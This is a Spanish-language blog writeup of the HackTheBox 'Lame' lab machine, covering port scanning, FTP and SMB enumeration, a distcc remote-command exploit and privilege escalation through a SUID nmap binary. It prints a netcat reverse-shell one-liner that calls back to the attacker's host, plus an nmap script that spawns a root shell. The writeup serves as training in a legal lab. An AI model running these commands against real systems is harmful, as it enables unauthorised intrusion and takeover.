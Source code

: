 ```yaml
---
layout: single
title: Lame (HackTheBox) - WriteUp (by blu3ming)
excerpt: "Writeup de la máquina Lame de la plataforma HackTheBpx. Nota: Puede incluir fallos y rabbit holes, los cuales se especifican, con el objetivo de que el lector no cometa los mismos errores que yo. Se recomienda leer el artículo completo antes de seguirlo al pie de la letra."
date: 2021-05-30
classes: wide
header:
  teaser: /assets/images/lame-writeup/lame.webp
  teaser_home_page: true
categories:
  - Writeup
tags:
  - HackTheBox
  - Writeup
  - Guia
---
```


[https://www.hackthebox.eu/home/machines/profile/1](https://www.hackthebox.eu/home/machines/profile/1)

+ Verificamos con una traza ICMP el sistema operativo al que nos enfrentamos. Vemos que es una máquina Linux (TTL aprox. de 64).

	![1]
	
+ Si realizamos un escaneo con ayuda de nmap, veremos que en el servidor se encuentran habilitados cinco servicios: un FTP, un SSH, un SMB y un DISTCC (este último se emplea en el cómputo distribuido).
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.3 -oG allPorts``
	
	![2]

+ Si realizamos un escaneo con ayuda de scripts básicos de enumeración, veremos que el servicio FTP corre con ayuda de un vsftpd versión 2.3.4.

    ![3]
	
	![4]
    
+ Como nos reportó el análisis anterior, el servicio FTP también acepta logueo de usuario anónimo, por lo que intentamos entrar con estas credenciales. Vemos que nos lo permite, sin embargo, la carpeta de dicho servicio se encuentra vacía.

    ![5]
    
+ Si intentamos ahora listar los recursos compartidos del servicio SMB, veremos que hay dos carpetas: **tmp** y **opt**.

	``smbclient -L 10.10.10.3 -N``

    ![6]
    
	Si entramos con una Null Session al servicio, y listamos los archivos contenidos dentro de el primer recurso compartido encontrado, el cual es **tmp**, veremos un par de ficheros.
    
    ![7]
    
	Si intentamos acceder al segundo recurso compartido que encontramos, veremos que no tenemos acceso a este por medio de la null session.

    ![8]
    
	Dada esta situación, solamente nos enfocamos en los ficheros encontrados en el recurso compartido al que obtuvimos acceso. Por desgracia, su contenido no nos resulta de utilidad.

    ![9]
	
	Nada relevante por aquí.
    
+ Nuestro siguiente objetivo es ver si la versión y servicio FTP cuentan con alguna vulnerabilidad conocida. Vemos que sí, se trata de un backdoor que nos permite ejecución remota de comandos.
    
    ![10]
    
	Por desgracia, cuando intentamos correr este exploit, veremos que no funciona. El objetivo de este es obtener una reverse shell.

    ![11]
    
+ Buscamos ahora otro exploit que nos permita explotar la misma vulnerabilidad, y en nuestra búsqueda nos encontramos con un script en Github.
    
    ![12]
    
	Por desgracia, este script tampoco funcionó, por lo que se deduce que la vulnerabilidad debe estar parchada de alguna forma en el servidor remoto.

+ Nos enfocamos ahora en el siguiente servicio encontrado en el puerto 3632, el cual es DISTCC. Vemos que este cuenta con una vulnerabilidad reportada, por lo que buscamos el exploit para vulnerar la máquina.

    ![13]
    
	De igual manera, esta vulnerabilidad nos permite ejecución remota de comandos en el servidor, solo es necesario pasarle como parámetro el comando a ejecuta. Como podemos ver, el servidor responde ante una ejecución whoami.

    ![14]
    
+ Dado que hay una respuesta positiva para esta ejecución de comandos, ahora intentamos entablarnos una reverse shell a nuestro equipo.

	``python exploit.py -t 10.10.10.3 -p 3632 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 443 >/tmp/f"``

    ![15]

    ![16]
	
	Vemos que el comando se ejecuta correctamente, ya que nuestra sesión de netcat recibe la conexión de parte del servidor.
    
+ Con esta sesión interactiva, ya podemos interactuar directamente con el servidor. Primero listamos la flag de usuario.

    ![17]
    
+ Nuestro siguiente objetivo es la escalada de privilegios. Primero, iniciamos por listar permisos SUID en el sistema. Vemos que el binario nmap tiene este permiso habilitado.
    
    ![18]
    
+ Si buscamos en GTFOBINS, veremos una forma de explotar dicho permiso. Por desgracia, no nos ayuda en la escalada de privilegios.

    ![19]
    
+ Si seguimos buscando en internet, veremos que podemos emplear este permiso para spawnear una shell como usuario administrador de la siguiente manera:
	
    ![20]
    
+ Ejecutamos los comandos tal y como nos son presentados, y como podemos observar, el binario nmap spawnea una bash como el usuario root.

	Básicamente lo que hace es crear un script personalizado de nmap en formato nse que, al ser llamado dentro del comando nmap, spawnea dicha bash. Se confirma con ayuda del comando whoami.
    
	```
	TF=$(mktemp)
	echo 'os.execute("/bin/sh")' > $TF
	/usr/bin/nmap localhost --script=$TF
	```
    
	![21]
    
+ Por último, únicamente nos resta listar la flag de usuario root. Con esto, hemos comprometido correctamente la máquina.

	![22]
	
+ **Nota:** Si en cuanto recibimos una shell interactiva por medio de netcat, realizamos un tratamiento de la TTY, podremos explotar el permiso SUID de nmap iniciando el modo interactivo de este. Una vez dentro, podemos escapar comandos con ayuda de “!”, por lo que solamente tenemos que llamar a una bash y listo, tendremos una sesión como el usuario root.

	![23]
    
[1]:/assets/images/lame-writeup/1.png
[2]:/assets/images/lame-writeup/2.png
[3]:/assets/images/lame-writeup/3.png
[4]:/assets/images/lame-writeup/4.png
[5]:/assets/images/lame-writeup/5.png
[6]:/assets/images/lame-writeup/6.png
[7]:/assets/images/lame-writeup/7.png
[8]:/assets/images/lame-writeup/8.png
[9]:/assets/images/lame-writeup/9.png
[10]:/assets/images/lame-writeup/10.png
[11]:/assets/images/lame-writeup/11.png
[12]:/assets/images/lame-writeup/12.png
[13]:/assets/images/lame-writeup/13.png
[14]:/assets/images/lame-writeup/14.png
[15]:/assets/images/lame-writeup/15.png
[16]:/assets/images/lame-writeup/16.png
[17]:/assets/images/lame-writeup/17.png
[18]:/assets/images/lame-writeup/18.png
[19]:/assets/images/lame-writeup/19.png
[20]:/assets/images/lame-writeup/20.png
[21]:/assets/images/lame-writeup/21.png
[22]:/assets/images/lame-writeup/22.png
[23]:/assets/images/lame-writeup/23.png